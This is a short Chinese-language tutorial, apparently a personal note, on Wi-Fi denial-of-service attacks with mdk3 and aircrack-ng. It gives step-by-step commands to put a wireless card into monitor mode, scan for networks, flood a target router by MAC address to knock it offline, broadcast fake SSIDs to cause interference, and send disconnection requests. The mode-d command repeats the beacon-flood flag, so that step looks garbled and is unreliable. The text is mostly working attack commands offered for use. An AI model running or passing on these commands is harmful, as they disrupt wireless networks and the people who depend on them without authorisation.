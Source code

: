 准备：linux安装了mdk3，不好安装可以换源试试，一个可以进入监听模式的无线网卡（我的笔记本网卡不支持，买的外置的网卡，芯片是8087或者7037）;网线（用有线网联网）

a模式（pin死路由器）

1.airmon-ng check kill //结束所有进程

2.ifconfig -a //检测网卡

3.airmon-ng start wlan1 //载入网卡,wlan1为网卡名（注：载入无线网卡后，连自己电脑的无线网卡也一起不好用了，这就是用有线网的原因）

4.airodump-ng wlan1 //信号扫描

5.sudo mdk3 wlan1 a -a mac //mac指mac地址


b模式(生成名为word里的wifi信号，起干扰作用
sudo mdk3 wlan1 b -f /root/桌面/word // /root/桌面/word 是word文件放的位置


d模式（发送断开连接请求）
sudo mdk3 wlan1 b -c 4 // 4 是频道，可以多选

